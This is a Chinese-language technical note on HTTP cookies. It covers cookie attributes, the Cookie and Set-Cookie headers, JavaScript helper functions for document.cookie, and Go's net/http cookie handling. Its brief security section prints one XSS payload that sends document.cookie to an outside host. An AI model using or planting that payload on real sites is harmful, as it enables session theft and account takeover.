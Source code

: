 # Cookie

HTTP Cookie（也叫Web Cookie或浏览器Cookie）是服务器发送到用户浏览器并保存在本地的一小块数据，它会在浏览器下次向同一服务器再发起请求时被携带并发送到服务器上。通常，它用于告知服务端两个请求是否来自同一浏览器，如保持用户的登录状态。Cookie使基于无状态的HTTP协议记录稳定的状态信息成为了可能。

## cookie属性

|  名称 |  键名 | 作用  |
| ------------ | ------------ | ------------ |
|  名称 |  Name |  cookie的名称 |
|  内容 |  Value |  cookie的值 |
|  域名 |  Domain |  cookie存在的域名 |
|  路径 |  Path |  指定uri路径之下生效 |
|  过期时间 |  Expire |  失效时间 |
|  是否安全 |  Secure |  是否只能用于https |
|  是否仅用于http |  HttpOnly |  是否仅用于http传输 true时阅览器document无法读取 |

## http

在http协议中，agent请求时候一般会自动添加[Cookie][2] Header，值就是cookie键值对。

如果服务端修改cookie，在Response Header里面会有[Set-Cookie][3] Header，agent会根据值来修改自身cookie。

通过查看http请求和响应或者抓包可以发现，请求cookie header就是服务端收到的cookie数据，而服务端设置cookie后，响应里面就有set-cookie header，值就是服务端设置的属性。

详细情况请看[rfc][1]。


### 客户端js操作cookie

简单来说cookies就是阅览器里面一个叫做document.cookie的全局字符串对象

进入阅览器控制台输入`console.log(document.cookie)`,回车执行就可以看见当前站点的cookies。

发现cookies就是一段序列化的键值字符串,如果需要操作cookie，则是通过操作document.cookie字符串来达到效果。

阅览器中cookies会随http请求自动发送,在request中会有cookie和Set-Cookie这两个header,里面就是cookie,h5的fetch需要指定是否发送cookies,默认不发送cookies

js操作cookie数据，直接读写document.cookie对象，封装函数如下：

```js
"use strict";
function getCookie(name){
	var arr, reg = new RegExp("(^| )" + name + "=([^;]*)(;|$)");
	if(arr = document.cookie.match(reg))
		return unescape(arr[2]);
	else
		return null;
}

function setCookie(name, value, expiredays){
	var exp = new Date();
	exp.setDate(exp.getDate() + expiredays)
	document.cookie = name + "=" + escape(value) + ((expiredays==null) ? "" : ";expires=" + exp.toGMTString())
}

function delCookie(name){
	var exp = new Date();
	exp.setTime(exp.getTime() - 1);
	document.cookie = name + "=;expires=" + exp.toGMTString();
}
```


## 服务端go操作cookie

[net/http.Cookie][1]定义：

```golang
type Cookie struct {
        Name  string
        Value string

        Path       string    // optional
        Domain     string    // optional
        Expires    time.Time // optional
        RawExpires string    // for reading cookies only

        // MaxAge=0 means no 'Max-Age' attribute specified.
        // MaxAge<0 means delete cookie now, equivalently 'Max-Age: 0'
        // MaxAge>0 means Max-Age attribute present and given in seconds
        MaxAge   int
        Secure   bool
        HttpOnly bool
        SameSite SameSite // Go 1.11
        Raw      string
        Unparsed []string // Raw text of unparsed attribute-value pairs
}
```

查看net/http定义的函数，可以发现读Cookie实现是读取Request.Header里面的Cookie header；而修改Cookie就设置ResponseWriter.Header()里面的Set-Cookie header，例如setcookie。

### Example

操作cookie

```go
// 设置Cookie
cookie := http.Cookie{Name: "testcookiename", Value: "testcookievalue", Path: "/", MaxAge: 86400}
http.SetCookie(w, &cookie)
 
// 读取Cookie
cookie, err := req.Cookie("testcookiename")

// 删除Cookie
cookie := http.Cookie{Name: "testcookiename", Path: "/", MaxAge: -1}
http.SetCookie(w, &cookie)
```


### Get

`net/http.Request.Cookies() []*Cookie`方法就是通过读取`net/http.Request.Header["cookie"]`的值，分析出cookie键值对来构造cookie，每次读取cookie都会出来一次，效率调低。

readCookies函数过长不列出。

### Set

`net/http.SetCookie(w ResponseWriter, cookie *Cookie)`方法定义，直接将要设置的cookie序列化成字符串，给response添加Set-Cookie Header，添加多个Cookie就将Set-Cookie Header添加多次。


`net/http.Cookie.Srting()`方法就是Cookie对象的序列化的方法，会将多种属性组合成字符串。

例如：路径、域名、过期时间、只读、仅https这些属性。

以下是SetCookie和修改请求Cookie的AddCookie函数实现：

```golang
// SetCookie adds a Set-Cookie header to the provided ResponseWriter's headers.
// The provided cookie must have a valid Name. Invalid cookies may be
// silently dropped.
func SetCookie(w ResponseWriter, cookie *Cookie) {
	if v := cookie.String(); v != "" {
		w.Header().Add("Set-Cookie", v)
	}
}

// AddCookie adds a cookie to the request. Per RFC 6265 section 5.4,
// AddCookie does not attach more than one Cookie header field. That
// means all cookies, if any, are written into the same line,
// separated by semicolon.
func (r *Request) AddCookie(c *Cookie) {
	s := fmt.Sprintf("%s=%s", sanitizeCookieName(c.Name), sanitizeCookieValue(c.Value))
	if c := r.Header.Get("Cookie"); c != "" {
		r.Header.Set("Cookie", c+"; "+s)
	} else {
		r.Header.Set("Cookie", s)
	}
}
```



## 安全

### XSS

XSS触发后盗取cookie信息，然后使用Cookie信息操作。

`<script>window.open('http://10.65.20.196:8080/cookie.asp?msg='+document.cookie)</script>`

### CSRF

cookie是CSRF基本触发条件之一。

[1]: https://tools.ietf.org/html/rfc6265
[2]: https://developer.mozilla.org/zh-CN/docs/Web/HTTP/Headers/Cookie
[3]: https://developer.mozilla.org/zh-CN/docs/Web/HTTP/Headers/Set-Cookie
